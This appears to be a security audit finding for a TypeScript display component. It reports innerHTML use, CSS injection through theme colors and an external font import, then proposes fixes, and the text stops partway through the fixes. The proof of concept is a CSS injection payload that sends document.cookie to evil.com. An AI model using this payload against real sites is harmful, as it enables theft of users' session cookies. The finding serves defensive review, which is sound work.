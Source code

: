 **Description:**
The `performRender()` method uses `innerHTML = ''` to clear the container, and `generateStyles()` uses template string interpolation with user-controlled theme configuration that gets inserted into a `<style>` tag via `textContent`.

**Code Location:**
```typescript
// Line 602 - HLTBDisplay.ts
this.containerElement.innerHTML = '';

// Line 1010 - HLTBDisplay.ts
style.textContent = this.generateStyles();

// Line 1032 - Importing external Google Fonts
@import url('https://fonts.googleapis.com/css2?family=Inter:wght@400;500;600;700&display=swap');
```

**Attack Vector:**
1. **innerHTML clearing:** While using `innerHTML = ''` for clearing is generally safe, it's inconsistent with the project's security policy that explicitly states "NEVER use innerHTML"
2. **Style injection:** If an attacker can control the `theme.colors` configuration, they could potentially inject malicious CSS that breaks Shadow DOM isolation or exfiltrates data via CSS injection attacks
3. **External CDN:** Loading fonts from Google Fonts CDN violates CSP and creates dependency on third-party infrastructure

**Proof of Concept:**
```typescript
// Malicious theme config
const maliciousTheme = {
  mode: 'dark',
  colors: {
    primary: "'; } * { background: url('https://evil.com/steal?data='+document.cookie); } a { color: '"
  }
};
```

**Impact:**
- CSS injection could leak data via background-image URLs with encoded data
- DOM manipulation via CSS (limited but possible)
- Violation of Content Security Policy
- Privacy leak to Google if Google Fonts loads

**Remediation:**

```typescript
// 1. Replace innerHTML with textContent or removeChild loop
private performRender(): void {
  if (!this.containerElement) return;

  // SECURE: Clear container without innerHTML
  while (this.containerElement.firstChild) {
    this.containerElement.removeChild(this.containerElement.firstChild);
  }
  this.metrics.domOperations += 1;

  // ... rest of render logic
}

// 2. Sanitize theme colors with strict validation
private validateColor(color: string): string {
  // Only allow hex colors, rgb(), rgba(), and named colors
  const hexPattern = /^#[0-9A-Fa-f]{3,8}$/;
  const rgbPattern = /^rgba?\(\s*\d{1,3}\s*,\s*\d{1,3}\s*,\s*\d{1,3}(\s*,\s*[\d.]+)?\s*\)$/;
  const namedColors = ['red', 'blue', 'green', 'white', 'black', 'transparent'];

```
